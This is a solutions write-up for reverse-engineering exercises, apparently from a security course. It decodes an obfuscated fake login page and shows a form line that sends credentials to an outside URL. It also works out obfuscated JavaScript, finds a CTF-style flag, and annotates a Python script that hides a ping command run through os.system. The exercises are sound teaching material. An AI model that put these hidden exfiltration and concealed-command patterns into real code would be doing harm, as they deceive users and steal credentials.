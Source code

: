 # Solutions
This document contains the solutions for the practice problems in this lesson.

# JavaScript
## FakeLoginExample.html
**Objective: Find the URL to which credentials are being exfiltrated.**

By first opening the file, we see that the text is encoded.The frequent `%` signs indicate that this is URL encoded. You can decode the text using the URL decode feature on [CyberChef](https://gchq.github.io/CyberChef). 

After decoding the string, we get a complete HTML framework that has CSS and JS included. The CSS and HTML can be ignored. Usually credentials are exfiltrated through a user input or form which occurs in Javascript. 

Look for JavaScript in the decoded string. There is a script tag in the code:
```javascript
    <script>
      var tag = document.getElementById('tag')
      tag.innerHTML = atob("PGZvcm0gUE9TVD0iaHR0cDovL2FubmFsYW5lcy5jb20vZmlsZXRoaXNhd2F5L3R4dC50eHQiPg==")
    </script>
```

The atob() function is another version of encoding-- Base64. We can use CyberChef to decode the string, which in this case becomes 
```html
<form POST="http://annalanes.com/filethisaway/txt.txt">
```

This code indicates that when the form in the HTML is submitted, the information is sent to the URL `http://annalanes.com/filethisaway/txt.txt`

**Answer: The credentials are exfiltrated to http[:]//annalanes[.]com/filethisaway/txt.txt (not a real website!)**

## reverseJavaScriptExample.js
**Goal: Figure out what line 33 will print out**
```javascript
console['log'](myFunction(0x14, 0xa));
```

First put the entire javascript code into [beautifier.io](https://beautifier.io/). It won't do too much. One of the key tips for reverse engineering is to check outputs, strings, and function calls.

Output: the console.log statement on line 33

Strings: The only strings related to the output are the variables passed into the function `myFunction`, which are `0x14` and `0xa`. These are hexadecimal characters which represent the decimal numbers `20` and `10`, respectively.

Function calls: Let's now analyze the function `myFunction`

```javascript
function myFunction(_0xa4d92a, _0x45c33b) {
  return _0xa4d92a * _0x45c33b;
}
```

We see that this function simply returns the product of the two variables passed into the function. So, the console.log just prints the product of the two numbers passed into it. Since `20` and `10` were passed into the function, the output should be `200`.

The rest of the code was simply added as an obfuscation technique and does nothing. By running the code on [jsconsole](https://jsconsole.com/), you can see that the output is indeed 200.

**Answer: The console will output 200.**

## reverseJavascriptPractice.js
** Goal: find the flag. (The flag format will match the regex `.*{.*}`)**

First put the entire javascript code into [beautifier.io](https://beautifier.io/). It will format it to be a little nicer. One of the key tips for reverse engineering is to check outputs. If you look at the bottom of the beautified JS, you will see:
```javascript
const item = ['a', 'n', 'n', 'a', ':', '!', ')', '{', 'x', 'o', 'y', 'g', 's', 's', 'p', 'p', 'g', 'r', 'l', '}'];
for (let i = 0x0; i < item[_0x361ee1(0x173)]; i++) {
    item[i] !== 'p' && i % 0x5 != 0x0 && console[_0x361ee1(0x16b)](item[i]);
}
```

This is the output statement since we see it has a print console statement. The print console statement conditionals will print any letter in the *item* array that is not equal to 'p' or any item in the array that is not at an indice that is a multiple of 5. If you iterate through the array one by one, you will see that the console will output `nna:){xogssgrl}`

**Answer: the flag is `nna:){xogssgrl}`**


# Python
## reversePython1.py
Objective: Figure out what command line 32 runs.
```python
os.system(command)
```

See the commented code below to see what each line of the code does.

```python
#!/usr/bin/python

#import necessary modules
import sys
import os
import codecs

def setDarkMode():
  # create an array of size 12 that is filled with the value 0
    screenVector = [0] * 12
    # create an array (also of size 12) with all these float integer values
    initialization = [56, 52.5, 55, 51.5, 16, 24.5, 23, 24.5, 23, 24.5, 23, 24.5]

    # iterature through the initialization array
    for pixel in range(len(initialization)):
      # the screenVector array becomes equal to the initialization array values multipled by 2

       screen = initialization[pixel] * 2
       screenVector[pixel] = screen

       # so at the end of the loop, the screenVector array equals = [112,105,110,103,32,49,46,49,46,49,46,49]

    # create an empty string
    mode = ''
    # interate through the screenVector array
    for pixel in range(len(screenVector)):
      # the chr() function takes a numerical value and turns it into its ASCII equivalent. so 112 is 'p' and 105 is 'i', etc. If you take all the ASCII equivalents of the numbers in the screenVector array, the string becomes 'ping 1.1.1.1'
       mode += chr(int(screenVector[pixel]))

    return mode 
    #return the string literal from the function  


def main():
  # if not 2 command line arguments (the file to run <this> and another argument) are passed to the function, print the fatal error 500
    if len(sys.argv) != 2:
        print("Fatal error 500")
        return
    #if the second argument passed to the commandline, when encoded by rot 13, equals `elhxznyjnertebhc` then print out "exiting"
    # this means the string we pass needs to be elhxznyjnertebhc decoded by rot 13 which becomes 'ryukmalwaregroup'.
    # set 'ryukmalwaregroup' as the command line argument to get the code to print 'Exiting'
    elif (sys.argv[1]) == codecs.decode('elhxznyjnertebhc', 'rot_13'):
        print("Exiting")
        return
    else:
        command = setDarkMode()
        # will run the string as a command that setDarkMode() returns, which we established is ping
        # so this will just run a ping command to 1.1.1.1
        os.system(command)

# call main function
if __name__ == "__main__":
  main()
```

## reversePython2